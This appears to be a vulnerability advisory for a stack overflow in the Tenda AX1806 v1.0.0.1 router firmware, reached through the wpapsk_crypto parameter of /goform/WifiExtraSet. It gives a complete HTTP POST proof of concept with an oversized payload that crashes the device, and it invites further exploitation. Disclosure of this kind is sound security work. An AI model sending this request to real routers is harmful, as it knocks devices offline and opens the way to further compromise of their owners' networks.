




# TENDA AX1806 v1.0.0.1 stack overflow Vulnerability in sub_455D4

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3422.html
- Affected firmware version：v1.0.0.1


## Vulnerability Description

There is a stack overflow vulnerability in function `sub_455D4`, called by function `fromSetWirelessRepeat`. The `v9` variable can be obtained from the http request parameter `wpapsk_crypto` without checking its size. And the `v9`, if not equal to `tkip&aes`, will be copied to the fixed size array `v16`, which can easily cause a stack overflow.







## POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.2.1
Cookie: password=a3b0b5bfc81588a7fb32b4278d53178almq5gk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 351

wifi_chkHz=0&wl_mode=wisp&security=wpapsk&wpapsk_type=wpa&wpapsk_key=aaaaaaaaaaa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



The router will crash after sending the poc, and you may modify this for further exploiting.